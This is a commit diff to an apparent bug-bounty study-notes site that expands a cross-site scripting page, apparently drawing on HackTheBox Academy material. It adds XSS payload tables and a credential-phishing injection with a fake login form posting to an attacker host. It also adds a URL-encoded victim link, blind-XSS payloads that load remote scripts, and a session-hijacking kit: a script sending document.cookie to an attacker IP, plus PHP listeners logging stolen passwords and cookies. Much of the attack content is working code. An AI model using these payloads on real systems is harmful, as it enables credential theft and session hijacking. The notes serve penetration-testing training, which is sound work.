

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/cross-site-scripting-(xss).md, in a window 1280 px wide and 1400 px high, scrolled down 1569 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1796 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
complete XSS module page

````diff
--- a/docs/bug-bounty-guide/cross-site-scripting-(xss).md
+++ b/docs/bug-bounty-guide/cross-site-scripting-(xss).md
@@ -6,17 +6,36 @@
 | Type                | Description                                                                 |
 |---------------------|-----------------------------------------------------------------------------|
 | Stored (Persistent) XSS | Occurs when user input is stored in a database and displayed (e.g., posts). |
-| Reflected (Non-Persistent) XSS | Occurs when input is processed and shown without storage (e.g., search).   |
-| DOM-based XSS       | Occurs when input is client-side processed and displayed (e.g., parameters).|
+| Reflected (Non-Persistent) XSS | Occurs when input is processed and shown without storage (e.g., search). |
+| DOM-based XSS       | Occurs when input is client-side processed and displayed (e.g., parameters). |
+
+## XSS Discovery Methods
+
+- Nessus
+- Burp Pro
+- ZAP
+- [XSS Strike](https://github.com/s0md3v/XSStrike)
+- [XSSer](https://github.com/epsylon/xsser)
+
+
+### XSS Strike
+```bash
+git clone https://github.com/s0md3v/XSStrike.git
+cd XSStrike
+pip install -r requirements.txt
+python xsstrike.py
+python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
+```
 
 ## XSS Payloads
 
 | Code | Description |
 |------|-------------|
 | `<script>alert(window.origin)</script>` | windows.origin shows the URL of the stored XSS if IFrames being used |
+| `<script>alert(document.cookie)</script>` | document.cookie shows the cookie of the current page/document |
 | `<plaintext>` | Stops the rendoring of any HTML code that comes after |
 | `<script>print()</script>` | Pop up the browser print dialog |
-| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
+| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload. Use when script tag gets sanitised |
 | `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
 | `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
 | `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
@@ -25,7 +44,169 @@
 | `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
 | `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
 
-## Commands
+- [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/)
+- [PayloadBox](https://github.com/payloadbox/xss-payload-list)
+
+**Note:** XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).
+
+## Phishing
+
+Initial step is to identify a working payload, ie:
+
+```js
+'><script>alert(1)</script>
+```
+
+Example of a basic HTML login form:
+
+```html
+<h3>Please login to continue</h3>
+<form action=http://OUR_IP>
+    <input type="username" name="username" placeholder="Username">
+    <input type="password" name="password" placeholder="Password">
+    <input type="submit" name="submit" value="Login">
+</form>
+```
+
+Which can be minified and put into JS:
+
+```js
+document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
+```
+
+To make the new form more likely to succeed, the original page HTML code should be removed:
+
+Original code example:
+
+```html
+<form role="form" action="index.php" method="GET" id='urlform'>
+    <input type="text" placeholder="Image URL" name="url">
+</form>
+```
+
+Removal code:
+
+```js
+document.getElementById('urlform').remove()
+```
+
+Adding a comment tag to the end of the payload will remove proceeding code:
+
+```html
+...PAYLOAD... <!--
+```
+
+Complete injection code:
+
+```js
+'><script>document.write('<h3>Please login to continue</h3><form action=http://PWNIP:PWNPO><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
+```
+
+The payload should then be added to the URL parameter, encoded, and sent to the victim:
+
+```url
+http://PWNIP/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2FPWNIP%3APWNPO%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--
+```
+
+We can then use a basic PHP listener that will retrieve the creds and send the victim to the origin page, simulating a successful login:
+
+**index.php**
+
+```php
+<?php
+if (isset($_GET['username']) && isset($_GET['password'])) {
+    $file = fopen("creds.txt", "a+");
+    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
+    header("Location: http://SERVER_IP/phishing/index.php");
+    fclose($file);
+    exit();
+}
+?>
+```
+
+```bash
+mkdir /tmp/tmpserver
+cd /tmp/tmpserver
+vim index.php #write index.php to file here
+sudo php -S 0.0.0.0:8080
+```
+
+## Blind XSS detection
+
+Occur with forms only accessible by certain user:
+- Contact Forms
+- Reviews
+- User Details
+- Support Tickets
+- HTTP User-Agent header
+
+We can detect the presence of blind XSS by starting a netcat listener or php server and entering a script that calls to it:
+
+```html
+<script src="http://OUR_IP/script.js"></script>
+```
+
+If the form has multiple fields we would detect which field is vulnerable like so:
+
+```html
+<script src=http://OUR_IP/fullname></script> #Used in the fullname field
+<script src=http://OUR_IP/username></script> #Used in the username field
+```
+
+**Tip:** Email maybe validated on the front-end and back-end, thus is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext.
+
+We made need to try multiple payload types, one at a time and appending each field name:
+
+```html
+<script src=http://OUR_IP></script>
+'><script src=http://OUR_IP></script>
+"><script src=http://OUR_IP></script>
+javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
+<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
+<script>$.getScript("http://OUR_IP")</script>
+```
+
+## Session hijaking
+
+If we successfully find a blind XSS vulnerability we can attempt a session hijaking attack.
+
+Create two files:
+
+**script.js**
+
+```js
+new Image().src='http://PWNIP:PWNPO/index.php?c='+document.cookie;
+```
+
+**index.php**
+
+```php
+<?php
+if (isset($_GET['c'])) {
+    $list = explode(";", $_GET['c']);
+    foreach ($list as $key => $value) {
+        $cookie = urldecode($value);
+        $file = fopen("cookies.txt", "a+");
+        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
+        fclose($file);
+    }
+}
+?>
+```
+
+Start a php server:
+
+```bash
+php -S 0.0.0.0:PWNPO
+```
+
+Use identified exploit to call script.js, ie:
+
+```js
+"><script src=http://PWNIP:PWNPO/script.js></script>
+```
+
+## Useful Commands
 
 | Command | Description |
 |---------|-------------|
@@ -33,6 +214,14 @@
 | `sudo nc -lvnp 8080` | Start netcat listener |
 | `sudo php -S 0.0.0.0:8080` | Start PHP server |
 
+Use cat to write to files:
+
+```bash
+cat << 'EOF' > script.js
+new Image().src='http://10.10.14.41:9001/index.php?c=' + document.cookie;
+EOF
+```
+
 ## Useful Links
 
 - [OWASP XSS](https://owasp.org/www-community/attacks/xss/)
````
